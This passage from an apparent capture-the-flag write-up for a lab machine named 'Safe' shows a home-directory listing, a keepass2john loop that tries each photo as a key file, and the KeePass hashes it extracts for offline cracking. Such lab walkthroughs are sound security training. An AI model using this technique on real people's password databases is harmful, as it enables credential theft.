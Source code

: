 ```
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
```

## Root
Once we log in, if we go to the user home directory to grab the user flag, we can see some images and a keepassx file ```MyPasswords.kdbx```:
```
user@safe:~$ ls -l
total 11260
-rw-r--r-- 1 user user 1907614 May 13  2019 IMG_0545.JPG
-rw-r--r-- 1 user user 1916770 May 13  2019 IMG_0546.JPG
-rw-r--r-- 1 user user 2529361 May 13  2019 IMG_0547.JPG
-rw-r--r-- 1 user user 2926644 May 13  2019 IMG_0548.JPG
-rw-r--r-- 1 user user 1125421 May 13  2019 IMG_0552.JPG
-rw-r--r-- 1 user user 1085878 May 13  2019 IMG_0553.JPG
-rw-r--r-- 1 user user    2446 May 13  2019 MyPasswords.kdbx
-rwxr-xr-x 1 user user   16592 May 13  2019 myapp
-rw------- 1 user user      33 May 13  2019 user.txt
```
So let's download the whole folder and try to krack the keepass database.  
To get the hash of the keepass file, we'll need to use one '2john' tool. Let's see if there's one:  
```
[root@kali Safe ]$ locate 2john | grep keep
/usr/sbin/keepass2john
```
to see how this works let's run it without any argument:
```
[root@kali Safe ]$ keepass2john       
Usage: keepass2john [-k <keyfile>] <.kdbx database(s)>
```
As we can see this takes as option a key file. Now to extract all the possible hashes, let's run keepass2john with/without key files, using images as keys:  
```
[root@kali Safe ]$ keepass2john MyPasswords.kdbx >> hashes.txt
```
Now let's do the same with a for loop using images files as keys
```
for i in $(ls *.JPG); do keepass2john -k $i MyPasswords.kdbx | sed "s/MyPasswords/$i/g" >> hashes.txt; done
```
Sed it's used to replace the 'MyPasswords' label with the key file, this will help us in identify the key file required to unlock the keepass database, once we have the full list like below:
```
[root@kali user-home ]$ cat hashes.txt
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96
IMG_0545.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*17c3509ccfb3f9bf864fca0bfaa9ab137c7fca4729ceed90907899eb50dd88ae
IMG_0546.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*a22ce4289b755aaebc6d4f1b49f2430abb6163e942ecdd10a4575aefe984d162
IMG_0547.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*e949722c426b3604b5f2c9c2068c46540a5a2a1c557e66766bab5881f36d93c7
```